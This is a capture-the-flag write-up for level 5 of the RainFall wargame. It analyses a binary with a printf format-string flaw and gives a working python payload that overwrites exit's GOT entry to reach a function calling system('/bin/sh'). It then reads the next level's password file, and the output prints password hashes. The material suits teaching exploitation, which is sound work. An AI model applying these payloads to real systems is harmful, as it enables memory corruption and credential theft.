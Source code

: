 # Level5

## Analysis

**In `main` :**

- call to function `n()`

**In `n()` :**

- `fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
- and used in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
- terminated by an `exit()`

We also have a function `o()` never used

**In `o()` :**
- it calls a `system("/bin/sh")`
- terminated by an `exit()`

`o()` adress : 0x080484a4

`exit()` adress: 0x8049838
```
(gdb) info function
All defined functions:
...
0x080483d0  exit
0x080483d0  exit@plt
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

(gdb) x 0x080483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
```

___

## Exploit

If we try to store a buffer `ABCD`, its done on the fourth position
```
level5@RainFall:~$ python -c 'print "ABCD" + " %4$x"' | ./level5
ABCD 44434241
```

But we cannot use ret because of the `exit()`
We'll change the adress ont he GOT (Global Offset Table) to point to `o()` adress

> 0x8049838 [exit] -> 0x080484a4 [o()]

```
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/level5 && cat /tmp/level5 - | ./level5
...
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

___

*Password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a*